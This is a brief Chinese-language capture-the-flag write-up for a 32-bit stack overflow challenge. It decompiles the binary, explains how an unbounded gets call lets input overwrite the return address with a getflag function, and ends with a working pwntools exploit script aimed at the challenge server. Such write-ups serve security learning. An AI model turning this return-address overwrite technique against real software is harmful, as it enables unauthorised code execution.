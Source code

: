 # level1

### 1. 下载文件，使用IDA32位，按F5反编译，发现
![](1.png)  
#### 双击进入stkof函数   
![](2.png)
#### tab + 空格看汇编 
![](4.png)
#### 程序先准备栈, 然后将ebp-0x108的位置当参数传递给_gets函数。因此，_gets会将程序的输入从ebp-0x108开始覆盖，直到遇到'\n'停止。
#### 观察到有一个getflag函数，这个函数可以读flag文件并输出，因此，只要将栈一直覆盖，直到将返回地址覆盖为getflag的地址,stkof()函数结束时，就可以自动调用getflag().

``` 
from pwn import *
context.log_level ="debug"

r = remote("pwn.sixstars.team",22001)
#r = process("./level1-retaddr")
payload = 'a'*0x108 + 'a'*0x4 + p32(0x804856b)

w=r.recvline()
print w

r.sendline(payload)
w = r.recvline()
w = r.recvline()
print w
```



